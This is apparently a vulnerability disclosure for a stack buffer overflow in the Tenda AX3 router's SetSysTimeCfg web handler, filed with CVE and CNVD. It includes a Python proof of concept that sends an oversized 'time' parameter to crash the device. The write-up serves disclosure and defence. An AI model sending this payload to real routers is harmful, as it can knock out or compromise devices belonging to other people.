

# Tenda Router AX3 Vulnerability

This vulnerability lies in the `/goform/SetSysTimeCfg` page which influences the lastest version of Tenda Router AX3. ([V16.03.12.10_CN](https://www.tenda.com.cn/download/detail-3238.html))

# Vulnerability description

There is a stack buffer overflow vulnerability in the `fromSetSysTime` function.

The `v9` variable is directly retrieved from the http request parameter `time`.

Then `v9` will be splice to stack by function sscanf without any security check,which causes stack overflow.



So by POSTing the page `/goform/SetSysTimeCfg` with proper `time`, the attacker can easily perform a **Remote Code Execution** with carefully crafted overflow data.

# POC

```python
import requests
from pwn import *

url = "http://192.168.0.1/goform/SetSysTimeCfg"

timeType = "manual"

time = "2022-01-01 "
time += "a" * 1024

r = requests.post(url, data={'timeType': timeType, 'time': time})
print(r.content)
```

# Timeline

- 2022.01.18 report to CVE & CNVD

